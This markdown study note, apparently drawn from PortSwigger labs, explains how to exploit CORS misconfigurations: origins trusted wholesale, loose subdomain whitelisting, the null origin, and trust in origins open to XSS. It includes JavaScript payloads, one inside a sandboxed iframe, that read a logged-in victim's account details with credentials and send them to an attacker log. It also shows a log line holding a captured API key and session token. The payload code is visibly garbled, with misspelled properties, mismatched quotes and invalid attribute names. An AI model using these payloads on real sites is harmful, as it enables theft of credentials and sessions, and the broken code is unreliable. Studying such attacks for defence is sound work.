

# Exploiting CORS

Assume a website has insecure CORS configuration that trusts all origins, attacker can craft a malicious HTML to lure the victim to click and extract sensitive information and sent to attacker.

Here is one example from portswigger:

<figure><figcaption></figcaption></figure>

A login user visit `/accountDetails` is allowed to get a respond of the user details including apikey and sessions.

If we add any origin for testing, the response will show the origin is allowed.

<figure><figcaption></figcaption></figure>

With this, it has no restriction of javascript origin, we can craft a malicious html page embedded with javascript to steal the respond in `accountDetails`

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.onload = function(){
        location('/log?key=' + xhr.respondTexte;)
    }
    xhr.open('GET','<vulnerablesites>/accountDetails",true);
    xhr.withCredentials = true;
    xhr.send();
</script>
```

After the victim click the link and visit the sites


```
10.0.3.227 X-X-X X:X:X:X +0000 "GET /log? key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22: %20%2268GUX0NAnVliC8aazO5LXijOQTPQQBWG%22,%20%20%22sessions%22:%20[%20%20%20%20%22TtWQVO4D3gfH7Ye50DdMGNpo7EfBkysI%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0.0 Safari/537.36
```


The logs will store the api keys

### Error parsing Origin headers

Some applications have a whitelisted origins, When a CORS request being made, the server origin is compared to the whitelist, if the origin appears on the whitelists then it reflected in the `Access-Control-Allow-origin` header so that the access is granted.

E.g.

```
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```

The application checks the supplied origin against its list of allowed origins and, if it is on the list, reflects the origin as follows:

```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```

Some mistakes when implementing CORS origin whitelists is some organization decide to allow access from all their subdomains e.g. **\*normal.sites .**&#x20;

An attacker might be able to gain access by registering the domain:

hackerman-normal.sites

### Whitelisted null origin value

The specification for the Origin header supports the value `Null` . Browser might send the value `null` in the Origin header in various unusual situations:

* Cross-origin redirects
* Requests from seralized data
* Request using the `file:` protocol
* Sandboxed cross-origin requests

One of the technique is using iframe sandbox, it isolated the `iframe` freom the rest of the web context, stripping away any traditional origin and set the origin to `null`&#x20;

We modified the previous payload to include a iframe:

```javascript
<iframe sandbox="allow-scrtips allow-top-nagivation allow-forms" scriptdoc="
<script>
    var xhr = new XMLHttpRequest();
    xhr.onload = function(){
        location('/log?key=' + xhr.respondTexte;)
    }
    xhr.open('GET','<vulnerablesites>/accountDetails",true);
    xhr.withCredentials = true;
    xhr.send();
</script>">
</iframe>
```

With this new payload, it can effective send a null origin iframe that trigger the javascript.

### Exploiting XSS via CORS trust relationships

Even "correctly" configured CORS establishes a trust relationship.

If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

###
